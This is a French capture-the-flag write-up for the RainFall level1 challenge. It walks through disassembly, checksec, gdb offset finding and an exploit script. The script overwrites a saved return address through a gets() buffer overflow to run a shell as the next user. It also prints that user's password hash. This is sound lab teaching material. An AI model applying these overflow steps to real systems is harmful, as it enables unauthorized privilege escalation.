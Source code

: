 Nous utilisons objdump pour avoir un aperçu du binaire level1 :

```
level1@RainFall:~$ objdump ./level1 -d
```

```asm
Disassembly of section .plt:

08048330 <gets@plt-0x10>:
 8048330:	ff 35 90 97 04 08    	pushl  0x8049790
 8048336:	ff 25 94 97 04 08    	jmp    *0x8049794
 804833c:	00 00                	add    %al,(%eax)
	...

08048340 <gets@plt>:
 8048340:	ff 25 98 97 04 08    	jmp    *0x8049798
 8048346:	68 00 00 00 00       	push   $0x0
 804834b:	e9 e0 ff ff ff       	jmp    8048330 <_init+0x38>

08048350 <fwrite@plt>:
 8048350:	ff 25 9c 97 04 08    	jmp    *0x804979c
 8048356:	68 08 00 00 00       	push   $0x8
 804835b:	e9 d0 ff ff ff       	jmp    8048330 <_init+0x38>

08048360 <system@plt>:
 8048360:	ff 25 a0 97 04 08    	jmp    *0x80497a0
 8048366:	68 10 00 00 00       	push   $0x10
 804836b:	e9 c0 ff ff ff       	jmp    8048330 <_init+0x38>

08048370 <__gmon_start__@plt>:
 8048370:	ff 25 a4 97 04 08    	jmp    *0x80497a4
 8048376:	68 18 00 00 00       	push   $0x18
 804837b:	e9 b0 ff ff ff       	jmp    8048330 <_init+0x38>

08048380 <__libc_start_main@plt>:
 8048380:	ff 25 a8 97 04 08    	jmp    *0x80497a8
 8048386:	68 20 00 00 00       	push   $0x20
 804838b:	e9 a0 ff ff ff       	jmp    8048330 <_init+0x38>


08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
 804844f:	89 c2                	mov    %eax,%edx
 8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
 8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
 804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
 8048469:	00 
 804846a:	89 04 24             	mov    %eax,(%esp)
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    

08048480 <main>:
 8048480:	55                   	push   %ebp
 8048481:	89 e5                	mov    %esp,%ebp
 8048483:	83 e4 f0             	and    $0xfffffff0,%esp
 8048486:	83 ec 50             	sub    $0x50,%esp
 8048489:	8d 44 24 10          	lea    0x10(%esp),%eax
 804848d:	89 04 24             	mov    %eax,(%esp)
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave  
 8048496:	c3                   	ret    
 8048497:	90                   	nop
 8048498:	90                   	nop
 8048499:	90                   	nop
 804849a:	90                   	nop
 804849b:	90                   	nop
 804849c:	90                   	nop
 804849d:	90                   	nop
 804849e:	90                   	nop
 804849f:	90                   	nop
 ```

La fonction **run** est intéressante, il y a un appel à **gets** dans main, qui est vulnérable à une attaque buffer overflow. Nous allons donc essayer de modifier l'adresse de retour pour accéder à la fonction **run** qui appelle **system**. Tout d'abord, nous vérifions si level1 est vulnérable à une attaque par buffer overflow :

```
level1@RainFall:~$ checksec --file ./level1 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level1
```

Aucun canary trouvé, donc nous pouvons exploiter la vulnérabilité avec un buffer oveflow. D'abord, nous allons trouver l'offset du buffer, puis créer payload.

```
level1@RainFall:~$ python /tmp/pattern.py
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
Ensuite, nous tentons de modifier l'EIP dans **main** avec l'adresse de la fonction **run**.

```
level1@RainFall:~$ gdb -q ./level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
(gdb) b *0x08048496
Breakpoint 2 at 0x8048496
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) c
Continuing.
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 2, 0x08048496 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048496 in main; saved eip 0x63413563
 Arglist at 0x41346341, args:
 Locals at 0x41346341, Previous frame's sp is 0xbffff740
 Saved registers:
  eip at 0xbffff73c
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
=> 0x08048496 <+22>:    ret
End of assembler dump.
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```
Nous avons un segfault à l'adresse ```0x63413563``` et la commande info frame nous donne: **saved eip 0x63413563**
Ainsi, nous savons que eip a été écrasé par cette valeur : ```0x63413563``` Nous allons vérifier la position de cette valeur dans notre pattern en utilisant notre script:

```
level1@RainFall:~$ python /tmp/pattern.py > /tmp/pattern
level1@RainFall:~$ python /tmp/pattern.py /tmp/pattern 0x63413563
offset found at: 76
```
On exploit avec le script:
```
level1@RainFall:~$ python /tmp/exploit.py 0x08048444 76
crafting payload...
done:
/tmp/payload_level1
level1@RainFall:~$ cat /tmp/payload_level1 - | ./level1

Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
Flag!


Nous avons vu que la limite est de 76 octets, nous pouvons également procéder manuellement en identifiant l'adresse de **eip** et en soustrayant l'adresse de début du buffer. Nous savons, d'après le code désassemblé, que 0x50 octets sont réservés, donc le buffer fait 0x50 - 0x10, soit 64 octets.

```
level1@RainFall:~$ gdb -q ./level1 
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048483 in main ()
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
=> 0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) b *0x08048495
Breakpoint 2 at 0x8048495
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048495 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0xb7e45400
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) x/24wx $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff700:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff710:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff720:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff730:	0x41414141	0x41414141	0x41414141	0xb7e45400
(gdb) p/d 0xbffff73c - 0xbffff6f0
$1 = 76
```
